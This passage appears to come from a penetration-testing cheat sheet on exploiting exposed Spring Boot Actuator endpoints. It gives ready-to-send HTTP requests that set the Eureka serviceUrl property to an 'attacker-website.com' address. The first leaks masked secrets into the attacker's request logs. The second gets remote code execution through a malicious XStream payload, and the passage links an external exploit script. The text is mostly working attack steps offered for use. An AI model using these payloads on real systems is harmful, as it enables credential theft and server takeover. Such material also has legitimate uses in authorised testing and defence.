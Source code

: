     ```http
    POST /actuator/env HTTP/1.1
    Content-Type: application/x-www-form-urlencoded

    {
        "name": "eureka.client.serviceUrl.defaultZone",
        "value": "http://value:${your.property.name}@attacker-website.com/"
    }
    ```

2. Refresh the configuration

    ```http
    POST /actuator/refresh HTTP/1.1
    Content-Type: application/json
    ```

3. Retrive the property value from `Authorization` header from `attacker-website.com` logs

References:
- [Spring Boot Vulnerability Exploit Check List: Obtain the plaintext of the password desensitized by the asterisk (method 2)](https://github.com/LandGrey/SpringBootVulExploit#0x04%E8%8E%B7%E5%8F%96%E8%A2%AB%E6%98%9F%E5%8F%B7%E8%84%B1%E6%95%8F%E7%9A%84%E5%AF%86%E7%A0%81%E7%9A%84%E6%98%8E%E6%96%87-%E6%96%B9%E6%B3%95%E4%BA%8C)

### XStream deserialization RCE

It requires `Eureka-Client` version `< 1.8.7`.

You can gain RCE with the following steps:

1. Set up a website that responds with a malicious XStream payload, check [springboot-xstream-rce.py](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/springboot-xstream-rce.py)
2. Set the `eureka.client.serviceUrl.defaultZone` property:

    ```http
    POST /actuator/env HTTP/1.1
    Content-Type: application/json

    {
        "name": "eureka.client.serviceUrl.defaultZone",
        "value": "http://attacker-website.com/payload"
    }
    ```

3. Refresh the configuration:

    ```http
    POST /actuator/refresh HTTP/1.1
    Content-Type: application/json
    ```

4. Code will be executed

It is possible because:

1. The `eureka.client.serviceUrl.defaultZone` property is set to the external eureka server URL
2. Refresh triggers a request to the fake eureka server that will return a malicious payload
3. Response parsing triggers XStream deserialization that leads to code execution
